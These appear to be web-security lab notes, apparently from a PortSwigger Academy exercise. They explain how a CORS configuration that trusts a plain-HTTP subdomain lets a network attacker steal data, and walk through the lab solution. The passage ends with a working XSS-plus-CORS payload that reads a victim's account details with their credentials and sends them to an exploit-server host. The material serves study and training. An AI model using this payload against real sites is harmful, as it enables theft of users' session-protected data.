 ### Breaking TLS with poorly configured CORS
Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. 
For example, when the application receives the following request: 

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
 The application responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
 In this situation, an attacker who is in a position to intercept a victim user's traffic:
 can exploit the CORS config -->  to compromise the victim's interaction with the app 
 
 This attack involves the following steps:
- The victim user makes any plain HTTP request.
- The attacker injects a redirection to -->  `http://trusted-subdomain.vulnerable-website.com`
- The victim's browser follows the redirect.
- The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to -->  `https://vulnerable-website.com`
- The victim's browser makes the CORS request, including the origin:
  `http://trusted-subdomain.vulnerable-website.com`
- The app allows the request because this is a whitelisted origin. 
  The requested sensitive data is returned in the response.
- The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure. 

#### CORS vulnerability with trusted insecure protocols
1. Check intercept is off, then use Burp's browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name.
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5. Open a product page, click **Check stock** and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the `productID` parameter is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting).
7. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID:
   
```javascript
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
